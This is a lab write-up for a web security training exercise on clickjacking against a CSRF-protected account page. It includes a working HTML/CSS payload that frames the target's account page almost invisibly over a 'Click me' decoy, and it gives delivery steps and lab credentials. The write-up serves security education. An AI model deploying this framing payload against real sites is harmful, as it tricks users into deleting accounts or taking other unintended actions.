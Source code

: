 # Basic clickjacking with CSRF token protection

## Description

This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website. 

## Reproduction and proof of concept

1. Log in and view `my_account`:

![Clickjacking](../../_static/images/clickjacking1.png)

```text
<div id="account-content">
    <p>Your username is: wiener</p>
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input required="" type="hidden" name="csrf" value="O4MwyJB2zDsba2zSUiNUP2mIOXyxqsjd">
        <button class="button" type="submit"> Update email </button>
    </form>
    <form id="delete-account-form" action="/my-account/delete" method="POST">
        <input required="" type="hidden" name="csrf" value="O4MwyJB2zDsba2zSUiNUP2mIOXyxqsjd">
        <button class="button" type="submit">Delete account</button>
    </form>
</div>
```

2. Create payload:
* The iframe `src` URL points to the target website vulnerable page. In this case, the page containing the "Update email" form, and depends on the unique lab-ID.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `top` and `left` values of resp `300px` and `60px`, to align the "Delete account" button with the "Test me" decoy action.

```text
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 300px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://LAB-ID.web-security-academy.net/my-account"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over "Test me" to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, change the position of the `div` element by modifying the `top` and `left` properties of the style sheet.
5. Change "Test me" to "Click me", set `opacity` to `0.0001`, and click **Store**.

![Clickjacking](../../_static/images/clickjacking2.png)

6. And **Deliver exploit to victim**

## Exploitability

To solve the lab, an attacker needs to craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted. An account with credentials `wiener:peter` is available. _Note: The victim will be using Chrome so test your exploit on that browser._
